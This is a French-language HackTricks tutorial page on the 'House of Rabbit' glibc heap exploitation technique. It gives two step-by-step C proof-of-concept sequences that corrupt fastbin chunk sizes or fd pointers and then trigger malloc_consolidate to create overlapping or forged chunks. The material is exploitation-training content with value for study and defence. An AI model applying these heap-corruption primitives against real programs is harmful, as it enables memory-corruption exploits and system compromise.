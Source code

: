 # Maison du Lapin

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

### Exigences

1. **Capacité à modifier le pointeur fd ou la taille du fastbin** : Cela signifie que vous pouvez changer le pointeur avant d'un chunk dans le fastbin ou sa taille.
2. **Capacité à déclencher `malloc_consolidate`** : Cela peut être fait en allouant un gros chunk ou en fusionnant le chunk supérieur, ce qui force le tas à consolider les chunks.

### Objectifs

1. **Créer des chunks superposés** : Avoir un chunk qui se superpose à un autre, permettant ainsi d'autres manipulations du tas.
2. **Forger des faux chunks** : Tromper l'allocateur pour qu'il traite un faux chunk comme un chunk légitime lors des opérations sur le tas.

## Étapes de l'attaque

### POC 1 : Modifier la taille d'un chunk fastbin

**Objectif** : Créer un chunk superposé en manipulant la taille d'un chunk fastbin.

* **Étape 1 : Allouer des chunks**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Étape 2 : Libérer les morceaux**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Nous libérons les deux morceaux, en les ajoutant à la liste fastbin.

* **Étape 3: Modifier la taille du morceau**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Étape 4 : Déclencher `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Allouer un gros morceau déclenche la fonction `malloc_consolidate`, fusionnant les petits morceaux dans le fast bin. La taille manipulée de `chunk1` provoque un chevauchement avec `chunk2`.

Après la consolidation, `chunk1` chevauche `chunk2`, permettant une exploitation supplémentaire.

### POC 2: Modifier le pointeur `fd`

**Objectif**: Créer un faux morceau en manipulant le pointeur `fd` du fast bin.

* **Étape 1: Allouer des morceaux**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Explication** : Nous allouons deux morceaux, un plus petit et un plus grand, pour configurer le tas pour le faux morceau.

* **Étape 2 : Créer un faux morceau**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Étape 3 : Libérer `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Explication**: Nous libérons `chunk1`, en l'ajoutant à la liste fastbin.

* **Étape 4: Modifier `fd` de `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Explication** : Nous changeons le pointeur avant (`fd`) de `chunk1` pour pointer vers notre faux chunk à l'intérieur de `chunk2`.

* **Étape 5 : Déclencher `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Allouer à nouveau un gros morceau déclenche `malloc_consolidate`, qui traite le faux morceau.

Le faux morceau devient partie de la liste fastbin, en faisant un morceau légitime pour une exploitation ultérieure.

### Résumé

La technique de la **Maison du Lapin** implique soit de modifier la taille d'un morceau de fast bin pour créer des chevauchements de morceaux, soit de manipuler le pointeur `fd` pour créer des faux morceaux. Cela permet aux attaquants de forger des morceaux légitimes dans le tas, permettant diverses formes d'exploitation. Comprendre et pratiquer ces étapes améliorera vos compétences en exploitation de tas.
